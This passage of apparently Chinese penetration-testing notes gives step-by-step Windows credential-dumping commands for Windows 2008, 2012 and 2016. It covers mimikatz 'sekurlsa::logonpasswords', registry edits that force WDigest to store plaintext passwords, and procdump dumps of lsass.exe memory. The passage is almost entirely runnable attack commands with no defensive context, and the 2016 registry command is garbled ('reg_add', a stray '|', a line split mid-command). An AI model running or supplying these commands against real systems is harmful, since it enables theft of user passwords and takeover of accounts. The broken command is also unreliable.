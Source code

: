 ****

#### 其它方式

```cmd
procdump+mimikatz
Powershell+mimikatz
Powershell+getpasshash
....
```

<img src="./assets/image-20241107190927531.png" alt="image-20241107190927531" style="zoom: 50%;" />

```cmd
# windows 2008 获取明文密码
mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >>log.txt

# windows 2012 获取明文密码
# 1.修改注册表
reg add hkey_local_machine\system\currentcontrolset\control\securityproviders\wdigest\ /v uselogoncredential /t reg_dword /d 1 /f
# 2.锁屏或注销,让用户重新登录
# 3.procdump获取内存中的密码信息,将lsass.exe下载到本地
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
# 使用mimikatz读取密码信息
mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >>log.txt

# windows 2016 获取明文密码
# 修改注册表开启UseLogonCredential,通过修改注册表让 Wdigest Auth 保存明文密码
reg_add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders|WDigest /v UseLogonCredential /t 
REG_DWORD /d 1 /f
# 锁屏...
# 获取明文密码
mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >>log.txt
```
